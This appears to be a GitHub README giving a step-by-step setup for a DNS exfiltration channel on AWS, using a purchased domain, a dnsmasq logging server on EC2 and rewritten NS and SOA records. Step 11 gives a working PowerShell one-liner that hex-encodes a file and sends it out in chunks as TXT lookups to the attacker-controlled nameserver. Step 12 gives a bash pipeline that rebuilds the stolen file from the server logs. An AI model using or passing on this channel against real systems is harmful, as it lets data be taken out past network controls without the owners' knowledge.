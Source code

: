 # DNS Exfil
DNS Exfiltration Setup on AWS

## Step 1: Purchase Domain Name on Route 53
Verify your email!

## Step 2: Create EC2 instance to host DNS service and logging
Use Amazon Linux OS, or any Linux OS of your preference.
Logging will contain DNS requests with encoded information, which we can then grep and cut later.

## Step 3: Create Security Groups
Inbound - Allow ICMP, TCP DNS, UDP DNS, SSH  
Outbound - Any  

## Step 4: Install dnsmasq on EC2 instance and configure it
sudo yum install dnsmasq  
sudo nano /etc/dnsmasq.conf then input the content below, right at the bottom of the config file  
  
listen-address=<EC2's private IP>  
address=/#/<EC2's public IP>  
log-queries  
log-facility=/var/log/dnsmasq.log  
  
Restart the VM, or find a way to restart dnsmasq (sudo systemctl restart systemd-networkd.service)  

sudo dnsmasq  

## Step 5: Go to Route 53 config, note down default SOA and NS records
**Record Name:** bhealthen.com  
**Type:** SOA  
**Value:** ns-1714.awsdns-22.co.uk. awsdns-hostmaster.amazon.com. 1 7200 900 1209600 86400  
**TTL:** 900  

**Record Name:** bhealthen.com  
**Type:** NS  
**Value:**  
ns-1714.awsdns-22.co.uk.  
ns-1071.awsdns-05.org.  
ns-577.awsdns-08.net.  
ns-113.awsdns-14.com.  
**TTL:** 172800  

![image](https://github.com/benlee105/DNS_Exfil/assets/62729308/f096c51f-a06d-4df4-b8a9-e1ad61579d8f)

## Step 6: Create A Record to point from record name to your EC2 instance
**Record Name:** ns1.bhealthen.com  
**Type:** A  
**Value:** 54.179.112.60
**TTL:** 300  

**Record Name:** ns2.bhealthen.com  
**Type:** A  
**Value:** 54.179.112.60
**TTL:** 300  

## Step 7: Modify existing NS Record to point to your NS records, which point to your EC2 instance
**Record Name:** bhealthen.com  
**Type:** NS  
**Value:**  
ns1.bhealthen.com  
ns2.bhealthen.com  
**TTL:** 60  

## Step 8: Modify existing SOA record to point to your NS record, which points to your EC2 instance
**Record Name:** bhealthen.com  
**Type:** SOA  
**Value:** ns1.bhealthen.com. admin.bhealthen.com 1 7200 900 1209600 86400  
**TTL:** 60  

## Step 9: Use CMD to nslookup as a test
nslookup -q=TXT 12332145343dafdsa234234123123453asdf234sadfsadfasdf ns1.bhealthen.com  

![image](https://github.com/benlee105/DNS_Exfil/assets/62729308/79dc6562-8f73-41bd-89ac-9db7701c0946)


## Step 10: Check your DNS logs in EC2
sudo cat /var/log/dnsmasq.log | grep -F "[TXT]"  

![image](https://github.com/benlee105/DNS_Exfil/assets/62729308/ff2684c5-136f-4ab2-8da7-88c17f0aa1a2)


## Step 11: Powershell command to hex encode a file, split, and do nslookup

`certutil -encodehex ToExfil.txt encoded.hex 12; $buffer = Get-Content .\encoded.hex; $split = $buffer -split '(.{50})' -ne ''; foreach ($line in $split) {nslookup -q=TXT "$Line.bhealthen.com" ns1.bhealthen.com; sleep 5} `

![image](https://github.com/benlee105/DNS_Exfil/assets/62729308/17905ffc-ee42-4f8d-b801-7f837d3da555)


## Step 12: Use a BASH command to read contents from TXT requests, remove unnecessary content, remove line break, remove spacing

`sudo cat /var/log/dnsmasq.log | grep -F '[TXT]' | cut -f 7 -d ' ' | cut -f 1 -d '.' | sed -z 's/\n/ /g' | sed -e 's/[[:space:]]//g' > output`  
`sudo cat output | xxd -p -r > ToExfil.txt | cat ToExfil.txt`  

![image](https://github.com/benlee105/DNS_Exfil/assets/62729308/68856338-b515-43e4-a873-d86df3ca9b27)

